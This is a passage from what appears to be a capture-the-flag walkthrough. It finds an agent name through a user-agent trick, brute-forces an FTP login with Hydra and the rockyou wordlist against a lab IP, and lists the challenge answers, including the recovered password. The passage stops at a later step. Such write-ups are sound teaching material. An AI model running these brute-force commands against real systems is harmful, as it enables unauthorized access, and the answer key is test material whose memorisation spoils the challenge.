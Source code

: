 I was greeted with this:

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP.
From, Agent R
```

Nice. We’ve got names. And perhaps a trail to follow.

> Q2: How you redirect yourself to a secret page?

> A2: user-agent

> Q3: What is the agent name?

> A3: chris

---

## 🔐 Step 3: FTP Bruteforce with Hydra

Since we now know a potential username — **chris** — and there's an FTP server up on port 21, I took a swing at it using Hydra:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.82.230 -vvv
```

Success:

```
[21][ftp] host: 10.10.82.230   login: chris   password: crystal
```

> Q4: FTP password

> A4: crystal

---

## 📁 Step 4: FTP Loot — Digging into the Files

After logging in with `ftp`, I found three files:

```
To_agentJ.txt  
cute-alien.jpg  
cutie.png
```

I pulled them all to my local machine.

![Screenshot From 2025-05-17 23-05-26](https://github.com/user-attachments/assets/00b7ca20-9d4d-4650-ab06-12a565a849e2)
---

## 🕵️ Step 5: Investigating `cutie.png`
